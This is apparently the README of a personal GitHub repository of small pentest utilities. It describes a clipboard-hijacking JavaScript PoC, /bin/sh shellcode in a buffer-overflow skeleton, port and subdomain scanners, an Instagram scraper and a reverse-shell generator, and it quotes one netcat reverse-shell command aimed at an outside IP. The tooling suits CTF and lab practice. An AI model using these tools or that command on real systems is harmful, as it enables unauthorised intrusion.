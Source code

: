# tidbits
Collection of small miscellaneous and/or interesting stuff that I might need again

### MaliciousCopyPaste.html
Small javascript PoC to hijack victims clipboard when they copy from site.

### RPyCenum.py
Script to pull some info out of RPC services. Written ages ago to deal with an HTB box that closed connections very quickly, cant remember which.

### bof\_bad\_chars\_skeleton.py
Mainly just offers a lazy way to generate string of all characters for bad char checking  
Also has a short /bin/sh shellcode because it is handy

### crtsh\_search.py
Feed in a domain as an argument and it will search it on crt.sh, returning a list of all unique subdomains in the response

### instagrabber.py
Quickly written script that scrapes images from specified instagram account. Very basic, no error checking, doesnt dl videos or stories.

```
usage: instagrabber.py [-h] [-u USER] [-s SESSIONID] [-o OUT]

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER  unique profile name of account to scrape
  -s SESSIONID, --sessionid SESSIONID
                        session id cookie value
  -o OUT, --out OUT     folder to save images
```

### netscan.sh
Usage: `./netscan.sh <IP>`

Performs a full tcp scan to determine open ports, followed by detailed scan on those ports and (if passwordless sudo available) top 15 UDP ports. Saves outputs and compiles list of open services for the host as well as appending to a master file (intended for multi-threaded running against a range using `parallel`)

### rsg.sh
Usage: `./rsg.sh <LHOST> <LPORT>`
  
A simple bash script to take input and output a bunch of reverse shell 1-liners. Not very original but here we go.   
Note: Does not include super basic cmds such as `nc -e /bin/sh 10.10.10.10 1337`

### sort_domains.py
Reads in a file containing a list of domains and prints them properly sorted to stdout
